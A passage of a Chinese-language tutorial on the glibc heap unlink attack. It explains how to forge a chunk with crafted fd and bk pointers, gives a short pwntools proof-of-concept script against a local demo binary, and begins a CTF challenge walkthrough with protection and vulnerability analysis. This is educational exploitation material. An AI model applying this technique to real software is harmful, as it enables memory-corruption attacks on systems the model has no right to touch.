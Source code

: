   其利用漏洞很明显，其在读取数据之前的内存布局如下所示
  ![unlink攻击的漏洞利用内存布局1](unlink攻击的漏洞利用内存布局1.PNG)

  我们此时有ptr1指针的地址，并且通过`ptr2[-1] = 0x510`语句，其相当于ptr2指向的内存对象的物理相邻的chunk已经被释放了。
  那么此时恰好有满足unlink攻击的条件——如果我们在ptr1指向的位置伪造一个chunk，其fd和bk字段分别为**ptr1 - SIZE_SZ * 3**和**ptr1 - SIZE_SZ * 2**，其恰好覆盖掉ptr2对象的pre_size字段。则`free(ptr2)`时，就会发生**unlink攻击**，其内存如下所示
  ![unlink攻击的漏洞利用内存布局2](unlink攻击的漏洞利用内存布局2.PNG)


  可以看到，当我们释放掉**ptr2**时，确实会发生**unlink攻击**，其利用和验证脚本如下所示
```python
from pwn import *

context.terminal = ['tmux', 'splitw', '-h']
sh = process('./unlink-poc')

ptr1_addr = int(sh.recvuntil('=>')[2:-2], 16)
ptr1_val = int(sh.recvuntil('\n')[2:-1], 16)
log.info('ptr1_addr => %#x, ptr1_val => %#x'%(ptr1_addr, ptr1_val))

sh.send(p64(0) + p64(0x31) + p64(ptr1_addr - 0x18) + p64(ptr1_addr - 0x10) + p64(0) * 2 + p64(0x30))

ptr1_addr = int(sh.recvuntil('=>')[2:-2], 16)
ptr1_val = int(sh.recvuntil('\n')[2:-1], 16)
log.info('ptr1_addr => %#x, ptr1_val => %#x'%(ptr1_addr, ptr1_val))
```

  总结一下，一般我们会用指针存储申请的内存地址。因此该指针地址往往就是**unlink攻击**中的**ptr**。但是在**unlink攻击**中，**ptr**指向chunk，而我们指针存储的是chunk加上chunk头大小的偏移，因此我们需要在该指针上伪造一个chunk。
  一般我们首先释放掉**ptr**指向的内存对象，然后利用**UAF**或其他手段，在该指针上伪造一个chunk。此时若释放掉其物理相邻的下一个chunk(非**fast bin**或**tcache**)，既可以发生**unlink攻击**


# 实例 class

  点击[附件链接](class.tar.gz)

## 保护分析

  首先查看一下程序相关的保护机制
  ![保护机制](保护机制.PNG)

  可以看到，其并没有开启**PIE**保护，则代码段和数据段的地址都是固定的，这其实就为**unlink攻击**做铺垫——可以获取指向申请的内存对象的指针的地址，即前面介绍的**unlink攻击**中的**ptr**

## 漏洞分析

  首先介绍一下程序的逻辑结构。
  整个程序可以大致分为申请课程、修改课程描述、释放课程、申请书、输出书信息、释放书、修改个人介绍和释放个人介绍几个部分。
  对于申请课程、申请书等，其皆为简单的内存块申请，如下所示
  ```c
/*
	申请课程
*/
int take()
{
  if ( does_have_class )
    return puts("You have a current class, please dismiss it and try again");
  class = malloc(0x38uLL);
  does_have_class = 1;
  puts("Please input the class description");
  return read(0, class, 0x37uLL);
}
  ```